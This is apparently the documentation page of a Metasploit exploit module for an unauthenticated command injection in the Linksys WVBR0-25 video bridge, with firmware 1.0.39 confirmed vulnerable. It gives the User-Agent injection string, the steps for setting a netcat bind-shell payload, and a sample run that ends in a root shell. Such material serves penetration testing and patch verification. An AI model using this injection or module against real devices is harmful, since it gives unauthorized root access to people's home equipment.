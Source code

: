 ## Vulnerable Application

  This module exploits a command injection vulnerability in the Linksys WVBR0-25 wireless video bridge. More information about the device itself can be found on AT&T's [manuals page](https://www.att.com/help/manuals/directv/dvrs.html) under the "DIRECTV Wireless Video Bridge Gen2 Product Manual" heading, as well as on this [unofficial product page](https://www.solidsignal.com/pview.asp?p=wvb). A description of the exploited vulnerability is available in the Vulnerability Details section of [this advisory](http://www.zerodayinitiative.com/advisories/ZDI-17-973/).
  The latest confirmed vulnerable firmware version is 1.0.39. It may be possible to downgrade newer versions to a vulnerable version, but since firmware images are not available for download, this cannot be verified.

  There is no complete list of vulnerable firmware versions, however the check method can reliably detect whether a device is vulnerable. The check method browses to the root of the device's webserver with a User-Agent set to `"; printf "[random string]`. If the response contains an md5 hash of the random string, the device is vulnerable to command injection.

  Manual exploitation would equate to browsing to the URI `http://<ip>/` with the User-Agent header set to `"; command;`.

  Version 1.0.39 was confirmed vulnerable, and firmware 1.0.41 was released to fix the exploit.

## Verification Steps

  1. Make sure the device is running.
  2. Start msfconsole.
  3. Do: ```use exploit/linux/http/linksys_wvbr0_user_agent_exec_noauth```
  4. Do: ```set payload cmd/unix/bind_netcat```
  5. Do: ```set RHOST [ip]```
  6. Do: ```exploit```
  7. You should get a shell.

## Options

### PAYLOAD

  The `generic` and `netcat` payload types are valid.

## Scenarios

### Firmware 1.0.39

  The following is an example run getting a shell:

  ```
  msf > use exploit/linux/http/linksys_wvbr0_user_agent_exec_noauth 
  msf exploit(linksys_wvbr0_user_agent_exec_noauth) > set payload cmd/unix/bind_netcat 
  payload => cmd/unix/bind_netcat
  msf exploit(linksys_wvbr0_user_agent_exec_noauth) > set RHOST 10.0.0.104
  RHOST => 10.0.0.104
  msf exploit(linksys_wvbr0_user_agent_exec_noauth) > exploit

  [*] 10.0.0.104:80 - Trying to access the device ...
  [*] Started bind handler
  [*] 10.0.0.104:80 - Exploiting...
  [*] Command shell session 1 opened (10.0.0.109:40541 -> 10.0.0.104:4444) at 2017-12-21 17:09:54 -0600
  id

  uid=0(root) gid=0(root)
  ```

